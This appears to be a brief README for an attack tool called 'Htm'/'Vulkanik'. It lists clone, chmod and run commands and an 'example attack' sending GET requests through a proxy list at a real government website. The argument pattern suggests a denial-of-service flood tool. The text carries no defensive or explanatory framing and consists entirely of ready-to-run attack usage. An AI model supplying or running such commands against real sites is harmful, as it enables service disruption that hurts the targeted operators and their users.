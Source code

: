 # Htm

git clone https://github.com/TaliGanda/Htm

cd Htm

chmod +x Vulkanik

./Vulkanik

example attack 

./Vulkanik GET https://nasa.gov 80 64 15 proxy.txt
